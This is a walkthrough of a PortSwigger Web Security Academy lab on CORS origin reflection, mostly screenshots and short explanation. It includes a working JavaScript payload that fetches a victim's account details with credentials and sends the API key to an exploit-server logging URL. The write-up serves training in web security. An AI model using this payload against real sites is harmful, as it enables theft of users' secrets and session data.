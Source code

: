 [Try it yourself before continuing](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

![](./Images/Pasted%20image%2020241208101022.png)

---

![](./Images/Pasted%20image%2020241208101809.png)

Let's start with a pre-flight check
to determine which request origins, methods or headers are allowed

![](./Images/Pasted%20image%2020241208102213.png)
> We have `Method Not Allowed` so the OPTIONS method will not work

![](./Images/Pasted%20image%2020241208102425.png)

These responses indicate that access is allowed from the domain `dipeua-website.com` and that cross-origin requests may include cookies (Access-Control-Allow-Credentials: true) and will therefore be processed in session.

> Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources in the vulnerable domain.

Since our response contains sensitive information such as an API key we can retrieve it with the following script:

```js
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://0aad00bf048b7e8d80073f9b007300d8.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
		location='https://exploit-0a8700ca04567e5780bf3ea801e5003e.exploit-server.net//log?key='+this.responseText;
	};
</script>
```

And send to the victim `Deliver exploit to victim`

![](./Images/Pasted%20image%2020241208102824.png)

Looking in the logs we did recover the information from the administrator

![](./Images/Pasted%20image%2020241208102914.png)
![](./Images/Pasted%20image%2020241208103139.png)

Then submit **api key** to validate the challenge

